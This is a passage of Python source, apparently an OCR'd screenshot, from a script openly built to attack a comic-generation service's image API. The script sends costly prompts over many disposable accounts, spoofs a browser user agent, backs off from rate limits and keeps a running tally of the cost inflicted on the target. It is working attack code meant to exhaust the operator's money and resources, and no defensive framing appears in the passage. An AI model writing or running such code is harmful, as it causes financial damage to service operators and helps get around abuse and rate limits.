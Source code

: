 ```python
        print(f"Request Rate: {rate:.2f} req/sec")
        print(f"Estimated Cost: ${self.total_cost:.2f}")
        print(f"Hourly Cost: ${self.total_cost/(elapsed/3600):.2f}")
        print(f"{'='*60}\n")

stats = AttackStats()

async def generate_image(session, account, semaphore):
    """Generate a single expensive image"""
    async with semaphore:
        prompt = random.choice(EXPENSIVE_PROMPTS)
        
        try:
            async with session.post(
                f"{TARGET_API}/api/comics/generate-image",
                headers={
                    "Authorization": f"Bearer {account['token']}",
                    "Content-Type": "application/json",
                    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
                },
                json={"panelDescription": prompt},
                timeout=aiohttp.ClientTimeout(total=60)
            ) as response:
                stats.total_requests += 1
                
                if response.status == 200:
                    stats.record_success()
                    print(f"[{datetime.now().strftime('%H:%M:%S')}] ✓ {account['email'][:20]} | Cost: ${stats.total_cost:.2f}")
                else:
                    stats.record_failure()
                    error = await response.text()
                    print(f"[{datetime.now().strftime('%H:%M:%S')}] ✗ {account['email'][:20]} | Error: {response.status}")
                    
                    # If rate limited, slow down
                    if response.status == 429:
                        await asyncio.sleep(60)
                
        except Exception as e:
            stats.record_failure()
            print(f"[{datetime.now().strftime('%H:%M:%S')}] ✗ Exception: {str(e)[:50]}")

async def attack_worker(session, account, semaphore, stop_event):
    """Continuously generate images for one account"""
    print(f"[+] Worker started for: {account['email']}")
    
    while not stop_event.is_set():
        try:
            await generate_image(session, account, semaphore)
            
            # Brief delay to avoid overwhelming the server immediately
            await asyncio.sleep(random.uniform(0.1, 0.5))
            
        except Exception as e:
            print(f"[-] Worker error for {account['email']}: {e}")
            await asyncio.sleep(5)

async def create_disposable_accounts(count=100):
    """Create disposable accounts for the attack"""
    print(f"[+] Creating {count} disposable accounts...")
    
    accounts = []
```